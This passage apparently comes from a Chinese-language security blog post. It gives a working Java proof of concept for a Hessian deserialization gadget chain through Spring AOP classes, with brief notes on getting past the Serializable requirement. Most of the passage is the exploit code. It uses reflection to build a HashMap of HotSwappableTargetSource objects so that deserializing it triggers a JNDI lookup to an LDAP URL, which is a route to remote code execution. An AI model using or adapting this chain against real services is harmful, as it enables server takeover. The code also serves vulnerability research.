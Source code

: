 在自己写这条链的时候，也是在不断的报错，因为发现它里面利用的很多类都没有继承`Serializable`接口，导致无法序列化和反序列化，并且似乎并没有找到绕过去的方式，包括`SimpleJndiBeanFactory`，后来看了一下`marshalsec`，后来才知道`Hessian`可以不需要继承序列化和反序列化的。

```bash
package com.example.Hessian;

import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.caucho.hessian.io.SerializerFactory;
import org.springframework.aop.support.*;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.springframework.jndi.support.SimpleJndiBeanFactory;
import org.springframework.scheduling.annotation.AsyncAnnotationAdvisor;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;

public class springaop {
    public static void main(String[] args) throws Exception {
        String jndiUrl = "ldap://127.0.0.1:9999/siJdcpuR";
        SimpleJndiBeanFactory simpleJndiBeanFactory = new SimpleJndiBeanFactory();
        simpleJndiBeanFactory.setShareableResources(jndiUrl);//这里一定要设置，为了过 Singleton()

        Class<?> AbstractBeanFactoryPointcutAdvisor = Class.forName("org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor");
        DefaultBeanFactoryPointcutAdvisor defaultBeanFactoryPointcutAdvisor = new DefaultBeanFactoryPointcutAdvisor();
        Field adviceBeanName = AbstractBeanFactoryPointcutAdvisor.getDeclaredField("adviceBeanName");
        adviceBeanName.setAccessible(true);
        adviceBeanName.set(defaultBeanFactoryPointcutAdvisor, jndiUrl);
        Field beanFactory = AbstractBeanFactoryPointcutAdvisor.getDeclaredField("beanFactory");
        beanFactory.setAccessible(true);
        beanFactory.set(defaultBeanFactoryPointcutAdvisor, simpleJndiBeanFactory);

        AsyncAnnotationAdvisor asyncAnnotationAdvisor = new AsyncAnnotationAdvisor();
        HotSwappableTargetSource hotSwappableTargetSource = new HotSwappableTargetSource(1);
        HotSwappableTargetSource hotSwappableTargetSource1 = new HotSwappableTargetSource(2);
        HashMap hashMap = new HashMap();
        hashMap.put(hotSwappableTargetSource, "1");
        hashMap.put(hotSwappableTargetSource1, "2");
        setFieldValue(hotSwappableTargetSource,"target",defaultBeanFactoryPointcutAdvisor);
        setFieldValue(hotSwappableTargetSource1,"target",asyncAnnotationAdvisor);
        String result=Hessian_serialize(hashMap);
        Hessian_unserialize(result);
    }
    public static String Hessian_serialize(Object object) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream=new ByteArrayOutputStream();
        HessianOutput hessianOutput=new HessianOutput(byteArrayOutputStream);
        SerializerFactory serializerFactory=new SerializerFactory(); //无需继承Serializable也可进行序列化和反序列化
        serializerFactory.setAllowNonSerializable(true);
        hessianOutput.setSerializerFactory(serializerFactory);
        hessianOutput.writeObject(object);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static void Hessian_unserialize(String obj) throws IOException, ClassNotFoundException {
        byte[] code=Base64.getDecoder().decode(obj);
        ByteArrayInputStream byteArrayInputStream=new ByteArrayInputStream(code);
        HessianInput hessianInput=new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
```